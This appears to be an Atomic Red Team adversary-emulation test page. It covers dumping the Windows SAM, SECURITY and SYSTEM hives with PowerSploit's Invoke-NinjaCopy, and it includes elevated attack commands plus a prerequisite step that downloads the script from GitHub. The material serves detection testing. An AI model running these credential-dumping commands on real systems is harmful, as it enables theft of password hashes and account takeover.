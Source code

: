 


<br/>
<br/>

## Atomic Test #13 - Dump SAM, SECURITY and SYSTEM files using NinjaCopy PowerShell script
This test uses PowerShell to copy SAM, SECURITY and SYSTEM files from an NTFS partitioned volume by reading the raw volume and parsing the NTFS structures.
Credit to Joe Bialek (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ninjacopy_script_path | Path to the Invoke-NinjaCopy PowerShell script | Path | PathToAtomicsFolder\T1003\src\Invoke-NinjaCopy.ps1|
| ninjacopy_script_url | URL of the Invoke-NinjaCopy PowerShell Script | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/6b0ada999a9d2be8c6c9267da57b898494d13219/Exfiltration/Invoke-NinjaCopy.ps1|
| output_folder | Output folder path | Path | C:\Windows\Temp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
. #{ninjacopy_script_path}
Invoke-NinjaCopy -Path "%systemroot%\System32\sam" -LocalDestination "#{output_folder}\sam"
Invoke-NinjaCopy -Path "%systemroot%\System32\system" -LocalDestination "#{output_folder}\system"
Invoke-NinjaCopy -Path "%systemroot%\System32\security" -LocalDestination "#{output_folder}\security"
```

#### Cleanup Commands:
```
rm "#{output_folder}\sam"
rm "#{output_folder}\system"
rm "#{output_folder}\security"
```


#### Dependencies:  Run with `powershell`!
##### Description: Invoke-NinjaCopy PowerShell Script must exist at #{ninjacopy_script_path}
##### Check Prereq Commands:
```
if(Test-Path "#{ninjacopy_script_path}") { 0 } else { 1 } 
```
##### Get Prereq Commands:
```
New-Item -ItemType Directory (Split-Path "#{ninjacopy_script_path}") -Force | Out-Null
Invoke-WebRequest #{ninjacopy_script_url} -OutFile "#{ninjacopy_script_path}"
```




<br/>
